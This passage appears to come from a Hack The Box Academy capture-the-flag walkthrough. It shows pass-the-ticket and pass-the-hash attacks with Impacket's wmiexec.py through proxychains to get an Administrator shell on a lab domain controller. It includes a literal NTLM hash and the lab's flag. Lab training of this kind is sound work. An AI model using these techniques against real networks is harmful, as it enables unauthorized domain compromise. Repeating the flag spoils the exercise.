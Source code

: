 Subsequently, students need to add a vHost entry for the DC living in the target's internal network `172.16.19.3` so that `Kerberos` authentication functions correctly:

Code: shell

```shell
sudo sh -c 'echo "172.16.19.3 lab-dc.lab.local" >> /etc/hosts'
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ sudo sh -c 'echo "172.16.19.3 lab-dc.lab.local" >> /etc/hosts'
```

With the TGT for the `Administrator` user attained, students need to `pass-the-ticket` with `wmiexec.py` to gain remote code execution on `lab-dc.lab.local`, making sure set the environment variable `KRB5CCNAME` to `administrator.ccache` before tunneling the command with `proxychains`:

Code: shell

```shell
KRB5CCNAME=administrator.ccache proxychains -q wmiexec.py -k -no-pass lab-dc.lab.local -dc-ip 172.16.19.3
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ KRB5CCNAME=administrator.ccache proxychains -q wmiexec.py -k -no-pass lab-dc.lab.local -dc-ip 172.16.19.3

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
dc\administrator
```

When reading the contents of the file `C:\ESC5\flag.txt`, students will attain the flag `HTB{ESC5_ACC3S5_ABUS3}`:

Code: shell

```shell
more "C:\ESC5\flag.txt"
```

```shell-session
C:\>more "C:\ESC5\flag.txt"

HTB{ESC5_ACC3S5_ABUS3}
```

Alternatively, students can `pass-the-hash` `6e599ada28db049c044cc0bb4afeb73d` with `wmiexec.py` and exfiltrate the contents of the file `C:\ESC5\flag.txt` directly:

Code: shell

```shell
proxychains -q wmiexec.py -no-pass -hashes :6e599ada28db049c044cc0bb4afeb73d administrator@172.16.19.3 "more C:\ESC5\flag.txt"
```
